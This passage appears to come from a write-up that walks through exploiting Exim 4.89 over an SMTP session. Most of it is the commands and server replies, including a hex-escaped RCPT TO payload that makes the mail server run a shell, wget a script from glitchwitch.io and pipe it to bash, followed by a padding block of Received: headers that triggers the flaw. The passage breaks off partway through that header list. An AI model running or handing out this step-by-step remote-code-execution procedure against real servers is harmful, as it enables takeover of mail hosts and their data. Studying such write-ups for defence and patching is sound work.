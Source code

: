 With this understanding, we can go ahead and test our newly crafted exploit. Note the response code `250` after each successful command.

## Exploiting
First we use nc to start a connection to the server.
```shell_session
glitchwitch@localghost:~$ nc 10.0.13.37 25
220 exim ESMTP Exim 4.89 Fri, 14 Jun 2019 21:57:18 +0000
```

Once we are connected we say HELO.
```
helo localhost

250 exim Hello localhost [10.10.13.37]
```

Next, we set the sender address to blank.
```
mail from:<>

250 OK
```

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is `rcpt to:<${run{...}}@localhost>`.

```
rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>

250 Accepted
```
And finally, we have to include a buffer as explained in the disclosure.
>we send more than received_headers_max (30, by default) "Received:" headers to the mail server, to set process_recipients to RECIP_FAIL_LOOP and hence execute the vulnerable code;

To do this we must type `DATA` followed by 31 lines, a blank line, and a period.
```
DATA
354 Enter message, ending with "." on a line by itself

Received: 1
Received: 2
Received: 3
Received: 4
Received: 5
Received: 6
Received: 7
Received: 8
Received: 9
Received: 10
Received: 11
Received: 12
Received: 13
Received: 14
Received: 15
Received: 16
Received: 17
Received: 18
Received: 19
Received: 20
Received: 21
Received: 22
Received: 23
Received: 24
Received: 25
```